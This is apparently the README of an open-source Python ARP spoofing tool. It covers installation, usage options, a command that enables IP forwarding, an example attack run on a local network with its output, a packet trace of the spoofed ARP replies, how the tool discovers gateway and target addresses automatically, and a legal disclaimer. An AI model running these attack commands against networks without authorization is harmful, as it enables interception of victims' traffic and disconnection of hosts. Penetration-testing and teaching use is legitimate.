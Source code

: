 # Python 3 ARP Spoofing Tool

[![Python Version](https://img.shields.io/badge/python-3.x-blue?style=for-the-badge&logo=python)](https://github.com/EONRaider/Packet-Sniffer/)
[![Open Source? Yes!](https://img.shields.io/badge/Open%20Source%3F-Yes!-green?style=for-the-badge&logo=appveyor)](https://github.com/EONRaider/Packet-Sniffer/)
[![License](https://img.shields.io/github/license/EONRaider/Packet-Sniffer?style=for-the-badge)](https://github.com/EONRaider/Packet-Sniffer/blob/master/LICENSE)

[![Reddit](https://img.shields.io/reddit/user-karma/combined/eonraider?style=flat-square&logo=reddit)](https://www.reddit.com/user/eonraider)
[![GitHub](https://img.shields.io/github/followers/eonraider?label=GitHub&logo=github&style=flat-square)](https://github.com/EONRaider)
[![Twitter](https://img.shields.io/twitter/follow/eon_raider?style=flat-square&logo=twitter)](https://twitter.com/intent/follow?screen_name=eon_raider)

A pure-Python ARP Cache Poisoning (a.k.a. "ARP Spoofing") tool that leverages a low-level 
assembly of Ethernet II frames and ARP packets.

This application maintains no dependencies on third-party modules and can be 
run by any Python 3.x interpreter.

## Installation

Simply clone this repository with `git clone` and execute the `arpspoof.py` file 
as described in the following **Usage** section.

```sh
user@host:~/DIR$ git clone https://github.com/EONRaider/Arp-Spoofer.git
```

## Usage
```
arpspoof.py [-h] [-i INTERFACE] [--attackermac MAC] [--gatemac MAC]
                   [--targetmac MAC] [--gateip IP] [--interval TIME]
                   [--disassociate]
                   IP

Execute ARP Cache Poisoning attacks (a.k.a "ARP Spoofing") on local networks.

positional arguments:
  TARGET_IP                    IP address currently assigned to the target.

optional arguments:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Interface on the attacker machine to send packets
                        from.
  --attackermac MAC     MAC address of the NIC from which the attacker machine
                        will send the spoofed ARP packets.
  --gatemac MAC         MAC address of the NIC associated to the gateway.
  --targetmac MAC       MAC address of the NIC associated to the target.
  --gateip IP           IP address currently assigned to the gateway.
  --interval TIME       Time in between each transmission of spoofed ARP
                        packets (defaults to 0.5 seconds).
  --disassociate        Execute a disassociation attack in which a randomized
                        MAC address is set for the attacker machine,
                        effectively making the target host send packets to a
                        non-existent gateway.
```


## Running the Application

- Execute the following command with administrative privileges in order to enable 
forwarding of IPv4 packets through the attacker machine. This is a temporary solution 
meant to be reset upon the next reboot (for a permanent solution check [this guide](https://linuxhint.com/enable_ip_forwarding_ipv4_debian_linux/)):

```sh
user@host:~$ sudo sysctl -w net.ipv4.ip_forward=1
```

- Example command in which we initiate an attack against a given target machine 
and gateway (the `eth0` interface is the one the attacker uses to send spoofed 
packets in this example):

```sh
user@host:~$ sudo python3 arpspoof.py 10.0.1.6
  
[>>>] ARP Spoofing configuration:
    [+] Interface    .....................eth0
    [+] Attacker MAC ........08:92:27:dc:3a:71
    [+] Gateway IP   .................10.0.1.1
    [+] Gateway MAC  ........52:93:d0:92:c5:06
    [+] Target IP    .................10.0.1.6
    [+] Target MAC   ........91:8b:28:93:af:07

[!] ARP packets ready. Execute the attack with these settings? (Y/N) y

[+] ARP Spoofing attack initiated. Press Ctrl-C to abort.
```

- Traffic displayed by [Network Packet Sniffer](https://github.com/EONRaider/Packet-Sniffer)
as the attack initiated above takes place:

```sh
[>] Packet #1 at 14:10:12:
    [+] MAC ......08:92:27:dc:3a:71 -> ff:ff:ff:ff:ff:ff
    [+] ARP Who has      10.0.1.6 ? -> Tell 10.0.1.5
[>] Packet #2 at 14:10:12:
    [+] MAC ......91:8b:28:93:af:07 -> 08:92:27:dc:3a:71
    [+] ARP ...............10.0.1.6 -> Is at 91:8b:28:93:af:07
[>] Packet #3 at 14:10:12:
    [+] MAC ......08:92:27:dc:3a:71 -> 91:8b:28:93:af:07
    [+] IPv4 ..............10.0.1.5 -> 10.0.1.6        | PROTO: UDP TTL: 64
    [+] UDP ..................52949 -> 54663
[>] Packet #4 at 14:10:12:
    [+] MAC ......91:8b:28:93:af:07 -> 08:92:27:dc:3a:71
    [+] IPv4 ..............10.0.1.6 -> 10.0.1.5        | PROTO: ICMP TTL: 64
    [+] ICMP ..............10.0.1.6 -> 10.0.1.5        | Type: OTHER
[>] Packet #5 at 14:10:18:
    [+] MAC ......08:92:27:dc:3a:71 -> 52:54:00:12:35:00
    [+] ARP ...............10.0.1.6 -> Is at 08:92:27:dc:3a:71
[>] Packet #6 at 14:10:18:
    [+] MAC ......08:92:27:dc:3a:71 -> 91:8b:28:93:af:07
    [+] ARP ...............10.0.1.1 -> Is at 08:92:27:dc:3a:71
```

### How it works

From the docstring of the `ARPSetupProxy` class in the 
[packets.py](https://github.com/EONRaider/Arp-Spoofer/blob/master/packets.py)
file:
> Performs a best-effort attempt to query the system and network for
information necessary to build the ARP attack packets. **It allows the
user to initiate an attack by simply supplying the target's IP
address**. All other required settings are looked up from the
attacker system's ARP and routing tables and by probing ephemeral
ports on the target host.

- Operations executed to obtain each configuration:
    - `Interface`: Parse routing table and look for interfaces connected 
    to the gateway.
    - `Attacker MAC`: Bind to interface and query name from `socket`.
    - `Gateway IP`: Parse routing table and find route with `0x0003` 
    flag set.
    - `Gateway MAC`: Parse ARP table looking for devices with `Gateway IP`.
    - `Target MAC`: Send a UDP datagram with a null-byte to a random 
    ephemeral port on the target system, effectively making the attacker
    system execute an ARP request to the broadcast address, and then
    reading the newly written information from the ARP table.
 
These are the reasons why a simple command such as 
`sudo python3 arpspoof.py 10.0.1.6` from the instructions above is able to 
initiate a gathering of all required information to initiate the attack,
releasing the Penetration Tester from going through all the usual commands
necessary to obtain them.

## Legal Disclaimer
The use of code contained in this repository, either in part or in its totality, 
for engaging targets without prior mutual consent is illegal. **It is 
the end-user's responsibility to obey all applicable local, state 
and federal laws.**

Developers assume **no liability** and are not 
responsible for misuses or damages caused by any code contained 
in this repository in any event that, accidentally or otherwise, it comes to 
be utilized by a threat agent or unauthorized entity as a means to compromise the security, privacy, 
confidentiality, integrity and/or availability of systems and their associated 
 resources by leveraging the exploitation of known or unknown vulnerabilities present 
in said systems, including, but not limited to, the implementation of security controls, 
human- or electronically-enabled.

The use of this code is **only** endorsed by the developers in those circumstances 
directly related to **educational environments** or **authorized penetration testing 
engagements** whose declared purpose is that of finding and mitigating vulnerabilities 
in systems, limiting their exposure to compromises and exploits employed by malicious 
agents as defined in their respective threat models.
